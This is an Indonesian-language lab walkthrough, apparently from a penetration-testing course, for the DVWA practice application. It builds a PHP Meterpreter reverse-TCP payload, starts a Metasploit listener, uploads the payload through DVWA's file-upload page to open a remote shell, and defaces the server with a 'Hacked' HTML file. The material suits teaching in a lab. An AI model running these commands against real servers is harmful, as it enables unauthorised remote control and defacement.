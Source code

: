 ## LESSON 8

Inti dari Lesson 8 adalah mendapatkan 4 hal, yaitu:
1. Membuat **php/meterpreter/reverse_tcp payload**
2. Menjalankan **php/meterpreter/reverse_tcp listener**
3. Mengunggah **php payload** menggunakan **DVWA Upload Screen**
4. Menggunakan **php payload** untuk membuat koneksi dengan **DVWA**

**NOTE**
- IP yang digunakan adalah sesuai dengan IP tempat DVWA ter-deploy

### Langkah-langkah

**A. Membangun PHP msfpayload**
1. Masukkan command berikut untuk membuat **msfpayload**

```
mkdir -p /root/backdoor
cd /root/backdoor
msfpayload php/meterpreter/reverse_tcp LHOST=192.168.1.104 LPORT=4444 R > PHONE_HOME.php
ls -l PHONE_HOME.php
```

![SS 1](LESSON_8/1.png)

2. **Edit PHONE_HONE.php**

```
Hilangkan # pada <?php
```

![SS 2](LESSON_8/2.png)

**B. Menjalankan PHP Payload Listener**
1. Masukkan command berikut

```
msfconsole
```

![SS 3](LESSON_8/3.png)

2. Jalankan command berikut

```
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.1.104
set LPORT 4444
exploit
```

![SS 4](LESSON_8/4.png)

**C. Login DVWA**

![SS 5](LESSON_8/5.png)

**D. Ubah Security Level**

![SS 6](LESSON_8/6.png)

**E. Upload PHP Payload**
1. Masuk ke dalam **Upload** lalu klik **Browse* dan cari file **PHONE_HOME.php**

![SS 7](LESSON_8/7.png)

2. Klik **Upload** sehingga muncul pesan sama seperti gambar di bawah

![SS 8](LESSON_8/8.png)

Didapatkan **Privileges** dari **User** yang diinginkan

3. Aktifkan **PHONE_HOME.php** dengan cara klik file tersebut setelah berada di halaman berikut

```
http://192.168.1.103/dvwa/hackable/uploads/
```

![SS 9](LESSON_8/9.png)

4. Koneksi telah stabil

![SS 10](LESSON_8/10.png)

5. Lakukan **Shell**

```
shell
uptime
pwd
whoami
w
echo "Hacked at 12-18-2017, by Sani Hacker" > hacked.html
ls -l
```

![SS 11](LESSON_8/11.png)

**F. Testing**
1. Buka **hacked.html** pada alamat berikut

```
http://192.168.1.103/dvwa/hackable/uploads
```

![SS 12](LESSON_8/12.png)

2. Hasil

![SS 13](LESSON_8/13.png)

### Kesimpulan Lesson 8

Menggunakan **msfconsole** dapat menambahkan file-file baru pada **DVWA**
